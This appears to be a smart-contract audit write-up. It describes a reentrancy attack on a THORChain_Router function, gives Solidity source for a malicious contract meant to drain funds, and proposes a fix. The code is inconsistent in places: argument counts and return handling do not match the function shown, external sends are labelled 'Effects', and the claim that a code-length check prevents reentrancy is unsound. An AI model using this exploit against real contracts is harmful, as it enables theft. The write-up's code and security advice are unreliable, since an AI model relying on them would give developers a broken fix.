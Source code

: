 #how an attacker might exploit the reentrancy vulnerability in the `transferOutAndCall` function.

Suppose the attacker has deployed a malicious contract `MaliciousContract`. The attacker can then call the `transferOutAndCall` function of the `THORChain_Router` contract with the `MaliciousContract`'s address, crafting a specific call to invoke a fallback function that calls back into the `THORChain_Router` contract.

Here's an example of the `MaliciousContract`:

```solidity
pragma solidity ^0.8.0;

contract MaliciousContract {
    THORChain_Router public router;

    constructor(address payable _router) {
        router = THORChain_Router(_router);
    }

    fallback() external payable {
        (bool success, ) = router.transferOutAndCall{value: msg.value}(
            address(this),
            address(0),
            1,
            address(0),
            address(0),
            0,
            "attack"
        );

        require(success, "transferOutAndCall failed");
    }

    function attack() external {
        (bool success, ) = router.transferOut(
            address(this),
            address(0),
            1,
            "attack"
        );

        require(success, "transferOut failed");
    }
}
```

When the `attack` function is called, it triggers the fallback function, which then calls the `transferOutAndCall` function of the `THORChain_Router` contract. This creates a reentrancy attack, allowing the attacker to continuously drain funds from the contract.

To prevent this vulnerability, consider using the Checks-Effects-Interactions pattern, updating the `transferOutAndCall` function as follows:

```solidity
function transferOutAndCall(
    address payable to,
    uint amount,
    address finalAsset,
    address recipient,
    uint256 amountOutMin,
    string memory memo
) external payable nonReentrant {
    // Checks
    require(to.code.length == 0, "transferOutAndCall: code not empty");

    // Effects
    uint safeAmount = amount;
    if (finalAsset == address(0)) {
        safeAmount = msg.value;
        bool success = to.send(safeAmount);
        if (!success) {
            payable(address(msg.sender)).transfer(safeAmount);
        }
    } else {
        _vaultAllowance[msg.sender][finalAsset] -= safeAmount;

        (bool success, bytes memory data) = finalAsset.call(
            abi.encodeWithSignature(
                "transfer(address,uint256)",
                recipient,
                safeAmount
            )
        );

        require(
            success && (data.length == 0 || abi.decode(data, (bool))),
            "Failed to transfer token before dex agg call"
        );
    }

    // Interactions
    emit TransferOutAndCall(
        msg.sender,
        to,
        safeAmount,
        finalAsset,
        recipient,
        amountOutMin,
        memo
    );
}
```

By adding the `require` statement to check if the `to` address has any code, we effectively prevent reentrancy attacks. However, this solution might not be ideal for every situation. Depending on your use case, you might need to apply other techniques.
